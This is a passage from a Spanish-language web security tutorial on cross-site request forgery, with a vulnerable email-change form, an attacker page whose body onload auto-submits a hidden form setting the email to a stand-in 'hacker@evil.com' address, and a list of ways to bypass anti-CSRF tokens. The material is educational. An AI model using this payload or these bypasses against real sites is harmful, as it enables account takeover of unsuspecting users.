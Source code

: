 2. Sirve esta página localmente:
   - **Apache:** `sudo cp index.html /var/www/html/` y accede a `http://localhost/index.html`.
   - **Python:** Navega al directorio donde guardaste `index.html` y ejecuta `python3 -m http.server 8000`. Accede a `http://localhost:8000/index.html`.

### Ejemplo: CSRF con Petición POST

Las peticiones POST son un poco más complejas de explotar que las GET, pero igualmente vulnerables si no hay protecciones.

**Formulario Vulnerable en `victim-site.com/email_change`:**

```html
<form method="post" action="/email_change_action">
  <label>New Email Address:</label>
  <input name="email" value="current_user@victim.com">
  <input type="submit" value="Update Email">
</form>
```

**Formulario del Atacante en `attacker-site.com`:** El atacante crea una página con un formulario que apunta al endpoint vulnerable, pero con valores maliciosos y, opcionalmente, lo auto-envía.

```html
<html>
  <body onload="document.csrf_form.submit()"> <p>Cargando...</p>
    <form name="csrf_form" action="https://victim-site.com/email_change_action" method="post">
      <input type="hidden" name="email" value="hacker@evil.com">
      <input type="submit" value="Gana un Premio (Falso)">
    </form>
  </body>
</html>
```

Cuando la víctima visita la página del atacante, el formulario se envía automáticamente. Su navegador adjuntará las cookies de sesión de `victim-site.com`, y el email se cambiará al del atacante.

### Protecciones CSRF y sus Bypasses

La contramedida más común contra CSRF es el uso de **Tokens Anti-CSRF**.

**¿Cómo funcionan los Tokens Anti-CSRF (Synchronizer Token Pattern)?**

1. Cuando el usuario solicita un formulario o una página que realiza una acción sensible, el servidor genera un token único y secreto.
2. Este token se incrusta como un campo oculto en el formulario y/o se almacena en la sesión del usuario en el servidor.
3. Cuando el usuario envía el formulario, el token se envía de vuelta al servidor.
4. El servidor compara el token recibido con el que tiene almacenado (o asociado a la sesión). Si coinciden, la petición es válida. Si no, se rechaza.

Un atacante no puede adivinar este token para incluirlo en su formulario CSRF.

**Bypasses Comunes de Tokens CSRF:**

1. **Token Ausente o No Validado por el Servidor:**
   - Simplemente se omite el parámetro del token en la petición CSRF. Si el servidor no lo valida, el ataque funciona.
2. **Token Presente pero la Validación Puede Ser Bypasseada:**
   - Enviar un token vacío o un token de longitud incorrecta, y ver si el servidor lo acepta.
3. **Cambio de Método HTTP:**
   - La aplicación valida el token solo para peticiones POST. Si la misma acción puede realizarse mediante una petición GET (que no suele requerir el token), el atacante puede usar CSRF vía GET.
     - Ejemplo: `POST /delete_user?user_id=123&csrf_token=XYZ` (protegido)
     - Prueba: `GET /delete_user?user_id=123` (podría funcionar sin token)
4. **Token Filtrado (Leaked):**
   - **Referer Header:** Si el token se incluye en la URL y el sitio hace peticiones a sitios externos, el token podría filtrarse a través de la cabecera `Referer`.